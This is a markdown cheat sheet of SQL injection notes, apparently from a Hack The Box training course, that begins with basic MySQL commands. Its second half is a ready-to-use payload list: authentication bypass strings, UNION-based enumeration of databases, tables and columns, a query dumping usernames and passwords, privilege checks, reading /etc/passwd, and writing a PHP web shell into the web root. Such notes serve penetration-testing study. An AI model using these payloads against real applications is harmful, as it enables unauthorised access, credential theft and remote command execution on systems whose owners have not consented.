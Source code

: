 # SQL Injection Notes

## CheatSheet

### General 	
|Command 	|Description|
|:----|:----|
|mysql -u root -h docker.hackthebox.eu -P 3306 -p 	|login to mysql database|
|SHOW DATABASES| 	List available databases|
|USE users 	|Switch to database|
### Tables 	
|Command 	|Description|
|:----|:----|
|CREATE TABLE logins (id INT, ...) 	|Add a new table|
|SHOW TABLES 	|List available tables in current database|
|DESCRIBE logins 	|Show table properties and columns|
|INSERT INTO table_name VALUES (value_1,..) 	|Add values to table|
|INSERT INTO table_name(column2, ...) VALUES (column2_value, ..) 	|Add values to specific columns in a table|
|UPDATE table_name SET column1=newvalue1, ... WHERE <condition> 	|Update table values|
### Columns 	
|Command 	|Description|
|:----|:----|
|SELECT * FROM table_name |	Show all columns in a table|
|SELECT column1, column2 FROM table_name 	|Show specific columns in a table|
|DROP TABLE logins| 	Delete a table|
|ALTER TABLE logins ADD newColumn INT |	Add new column|
|ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn |	Rename column|
|ALTER TABLE logins MODIFY oldColumn DATE |	Change column datatype|
|ALTER TABLE logins DROP oldColumn 	|Delete column|
### Output 	
|Command 	|Description|
|:----|:----|
|SELECT * FROM logins ORDER BY column_1 |Sort by column|
|SELECT * FROM logins ORDER BY column_1 DESC 	|Sort by column in descending order|
|SELECT * FROM logins ORDER BY column_1 DESC, id ASC |	Sort by two-columns|
|SELECT * FROM logins LIMIT 2 	|Only show first two results|
|SELECT * FROM logins LIMIT 1, 2 	|Only show first two results starting from index 2|
|SELECT * FROM table_name WHERE <condition> 	|List results that meet a condition|
|SELECT * FROM logins WHERE username LIKE 'admin%' |	List results where the name is similar to a given string|

### MySQL operator precendence
- Division (/), Multiplication (*), and Modulus (%)
- Addition (+) and Subtraction (-)
- Comparison (=, >, <, <=, >=, !=, LIKE)
- NOT (!)
- AND (&&)
- OR (||)

### SQL Injection
### Auth Bypass 	
|Payload 	|Description|
|:----|:----|
|admin' or '1'='1 	|Basic Auth Bypass|
|admin')-- - 	|Basic Auth Bypass With comments|
### Auth Bypass Payloads 	
### Union Injection 	
|Payload 	|Description|
|:----|:----|
|' order by 1-- - 	|Detect number of columns using order by|
|cn' UNION select 1,2,3-- - |	Detect number of columns using Union injection|
|cn' UNION select 1,@@version,3,4-- - 	|Basic Union injection|
|UNION select username, 2, 3, 4 from passwords-- - 	|Union injection for 4 columns|
### DB Enumeration 	
|Payload 	|Description|
|:----|:----|
|SELECT @@version |Fingerprint MySQL with query output|
|SELECT SLEEP(5) 	|Fingerprint MySQL with no output|
|cn' UNION select 1,database(),2,3-- - 	|Current database name|
|cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- - |	List all databases|
|cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- - |	List all tables in a specific database|
|cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- - 	|List all columns in a specific table|
|cn' UNION select 1, username, password, 4 from dev.credentials-- - 	|Dump data from a table in another database|
### Privileges 	
|Payload 	|Description|
|:----|:----|
|cn' UNION SELECT 1, user(), 3, 4-- - 	|Find current user|
|cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- - 	|Find if user has admin privileges|
|cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- - 	|Find if all user privileges|
|cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- - 	|Find which directories can be accessed through MySQL|
### File Injection 	
|Payload 	|Description|
|:----|:----|
|cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- - 	|Read local file|
|select 'file written successfully!' into outfile '/var/www/html/proof.txt' |	Write a string to a local file|
|cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- - 	|Write a web shell into the base web directory|
